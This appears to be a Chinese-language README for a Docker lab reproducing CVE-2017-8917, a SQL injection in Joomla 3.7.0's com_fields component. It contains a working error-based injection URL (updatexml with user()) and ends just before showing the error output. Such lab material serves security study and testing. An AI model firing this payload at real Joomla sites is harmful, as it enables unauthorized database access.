

# Joomla 3.7.0 (CVE-2017-8917) SQL 注入漏洞环境

Joomla 是一个开源免费的内容管理系统（CMS），基于 PHP 开发。

Joomla 在 3.7.0 中新引入的一个组件“com_fields”，这个组件任何人都可以访问，无需登陆验证。com_fields 组件由于对请求数据过滤不严导致了 SQL 注入。

参考链接：

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## 测试环境

执行如下命令启动一个 Joomla 3.7.0 服务：

```
docker compose up -d
```

启动后访问 `http://your-ip:8080` 即可看到 Joomla 的安装界面和测试数据。

## 漏洞复现

直接访问 `http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到 SQL 报错信息：


